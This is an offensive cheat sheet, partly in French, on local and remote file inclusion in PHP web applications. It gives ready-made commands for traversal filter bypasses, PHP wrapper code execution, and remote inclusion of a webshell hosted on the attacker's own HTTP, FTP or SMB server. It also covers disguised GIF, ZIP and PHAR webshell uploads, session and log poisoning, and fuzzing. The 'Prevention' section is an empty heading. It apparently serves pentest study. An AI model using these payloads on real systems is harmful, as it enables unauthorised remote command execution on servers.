 # File Inclusion

----
## 

###### Path transversal
```bash
# utiliser pour se deplacer et executer le fichier 
../<NomFile>
```

###### Basic Bypasses

```bash
# filter : replace ../ by ''
Bypass : ....// | ..\/ | convertIntoURLEncoding

# Approved Paths 
Bypass : ./<CurrentDirectory>/<PathTransversal>
```
* Path Trucation 
* Null Bytes 
    * Ajouter %00 à la fin de l'extension du fichier

###### PHP Filters
- Directory fuzzing ( dirbuster, ffuf )
- Lire un fichier php
```URL
# mettre dans l'url
php://filter/read=convert.base64-encode/resource=<FileName>
```
----

## Remote Code Execution

###### PHP Wrappers

* DATA : check allow_url_include `**/etc/php/<X.Y>/apache2/php.ini**`
    
    
    ```bash
    # verify if  `allow_url_include` or `expect` are allowed

    curl "http://<SERVER_IP>:<PORT>/<Vulnerable-LFI-Path>=php://filter/read=convert.base64-encode/resource=../../../../etc/php/<X.Y>/apache2/php.ini"

    # copy the base64 , décode and grep `allow_url_include` or `expect`
    ```
    * if enabled :
        ```bash
        echo '<?php system($_GET["cmd"]); ?>' | base64
        # attack
        curl -s 'http://<SERVER_IP>:<PORT>/<Vulnerable-LFI-Path>=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep <uid| cmd>
        ```

* INPUT : the input wrapper can be used to include external input and execute PHP code.
    - To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (` <\?php system('id')?>`)

    ```bash
    curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT><Vulnerable-LFI-Path>=php://input&cmd=id" | grep uid
    ```

* EXPECT : it is designed to execute commands.
    ```bash
    curl -s "http://<SERVER_IP>:<PORT>/<Vulnerable-LFI-Path>=expect://id"
    ```

###### Remote File Inclusion (RFI)

1.1 -  check allow_url_include

1.2 - start by trying to include a local URL

```bash
http://<SERVER_IP>:<PORT>/<Vulnerable-LFI-Path>=http://127.0.0.1:<Port>/<PageOfWebsite>
```

- Si ca marche 

**2 - Remote Code Execution with RFI**
- Create webshell or phpbash
    ```bash
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```
            
- run RFI 

    ```bash
    # my machine ( RFI with http)
    sudo python3 -m http.server <LISTENING_PORT>
    # curl or navigator
    http://<SERVER_IP>:<PORT>/<Vulnerable-LFI-Path>=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id

    # RFI with ftp
    sudo python -m pyftpdlib -p 21
    # curl or navigator
    http://<SERVER_IP>:<PORT>/<Vulnerable-LFI-Path>=ftp://<OUR_IP>/shell.php&cmd=id

    # RFI with SMB
    impacket-smbserver -smb2support share $(pwd)
    # curl or navigator
    http://<SERVER_IP>:<PORT>/<Vulnerable-LFI-Path>=\\<OUR_IP>\share\shell.php&cmd=whoami

    ```

###### LFI and File Uploads

- [File Upload](../Topics/File%20Upload.md)

- **Crafting Malicious Image**
    ```bash
    # use malicious gif file
    # 1 - create file 
    echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
    # 2 - upload file 
    # 3 - change img url in html code 
    # get access via navigator or curl
    http://<SERVER_IP>:<PORT>/<Vulnerable-Path-LFI>=./<FILE-DIRECTORY-STOCKAGE>/shell.gif&cmd=id
    ```
- **ZIP Upload : ZIP Wrapper**
    ```bash
    # 1 - create malicious webshell
    echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

    # 2 -  upload 

    # 3 - get acces
    http://<SERVER_IP>:<PORT>/<Vulnerable-Path-LFI>=zip://./<FILE-STOCKAGE-PAHT>/shell.jpg%23shell.php&cmd=id

    ```

- **PHAR Upload**

```bash
# 1 - shell.php file
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

# 2 - rename 
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
# 3 - upload file 

# get access
http://<SERVER_IP>:<PORT>/<Vulnerable-Path-LFI>=phar://./<FILE-STOCKAGE-PAHT>/shell.jpg%2Fshell.txt&cmd=id
```

###### Log Poisoning

| Tools |Path for Cookie Session file and access and errof file|
|-----|-----|
|PHP|`/var/lib/php/sessions/sess_<PHPSESSID>`, `C:\Windows\Temp\`|
|Apache|`/var/log/apache2/`,`C:\xampp\apache\logs\`  |
|Nginx|`/var/log/nginx/`, `C:\nginx\log\`|
**PHP Session Poisoning**
- check cookies in navigator
- use it to poison the session cookie file
```bash
# 1 - test
http://<SERVER_IP>:<PORT>/<Vulnerable-Path-LFI>=session_poisoning

# 2 - test to see if you will see session_poisoning in display
http://<SERVER_IP>:<PORT>/<Vulnerable-Path-LFI>=/var/lib/php/sessions/sess_<CookieString>

# 3 - upload the webshell after poisoning
http://<SERVER_IP>:<PORT>/<Vulnerable-Path-LFI>=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

# 4 - RCE via webshell
http://<SERVER_IP>:<PORT>/<Vulnerable-Path-LFI>=/var/lib/php/sessions/sess_<CookieString>&cmd=<CMD>

# repeat step 4 and 5 each time do the RCE 
```
**Server Log Poisoning**
-  The log contains the remote IP address, request page, response code, and the User-Agent header.

-  use Burp Suite to intercept our earlier LFI request and modify the User-Agent header to Apache Log Poisoning
    ```bash
    # get to access.log with navigator and 
    # Replace user-agent by webshell with burp
    # reuse the link by adding &cmd=id to the first line ( path to file) when access after poisoning 

    # alternative
    curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
    ```

- other similar log poisoning session
    ```bash
    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log
    # try to find if ftp or ssh log are exposed
    ```
---

## Automation and Prevention

###### Automated Scanning 

-  Parametter FUZZING
    ```bash
    ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value'
    ```
- LFI Wordlist in : `Seclists/Fuzzing/LFI`
- Value FUZZING 
    ```bash
    ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?<Vulnerable-LFI-Path>=FUZZ' -fs 2287
    ```
- Server Webroot fuzzing
    ```bash
    ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?<Vulnerable-LFI-Path>=../../../../FUZZ/index.php'
    ```

-  Server Logs/Configurations

    ```bash
    ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?<Vulnerable-LFI-Path>=../../../../FUZZ'
    ```

**Ressource**
- [LFI wordlist Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
- [LFI wordlist windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
- [HackTrick](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters)
- **Tool :** LFISuite, liffy, LFiFreak

###### File Inclusion Prevention